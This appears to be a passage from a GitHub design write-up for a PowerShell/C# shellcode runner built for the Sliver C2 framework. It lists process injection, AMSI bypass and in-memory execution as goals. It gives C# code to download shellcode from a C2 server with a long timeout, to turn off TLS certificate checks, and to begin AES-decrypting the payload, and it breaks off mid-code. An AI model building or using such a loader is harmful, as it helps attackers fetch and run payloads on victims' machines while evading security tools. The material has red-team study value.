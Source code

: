 
# Designing the Shellcode Runner

The feature that i want to include in this Shellcode runner is :
- support for the differnet staging cenarios that Sliver C2 offers (raw shellcode , compression, aes encryption, compression and aes encryption ..etc)
- process injection
- amsi bypass
- in memory execution
- flexibility when passing arguments (no hardcoded parameters.  instead , i will be able to pass the arguments on the fly)
there are different approaches we can take to achieve this . what i ended up choosing was :
- write a C# dll assembly that contains all the classes and the methods we need.
- embed it in the powershell script as a base64 string
- decode the assembly and load it to the process using reflection.
- specify the arguments and execute the methods.

# Downlaoding the shellcode

 This was one of the main problems i encountered back when i started. the default dot net webclient object times out the connection after 60 seconds. and this attribute can not be easily changed. the solution for that is to implement a sightly modified version of the web client object where we can override the default timeout with the value we need. 
 the implementation of that on C# is :
```C#
 public class WebClientWithTimeout : WebClient
        {
            protected override WebRequest GetWebRequest(Uri address)
            {
                WebRequest wr = base.GetWebRequest(address);
                wr.Timeout = 50000000; // timeout in milliseconds (ms)
                return wr;
            }
        }
```
since we are using a custom SSL cert , we will have to instruct the web client to ignore it . to do that we will use certificate validation handler that returns the value true as follows :
```csharp
ServicePointManager
    .ServerCertificateValidationCallback += 
    (sender, cert, chain, sslPolicyErrors) => true;
```

# Decrypting the shellcode 

on the [Stagers wiki page]() , the Sliver C2 team has a template for a C# shellcode runner that implements aes encryption. we can just use the decryption method they provide :
```C#
public static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
```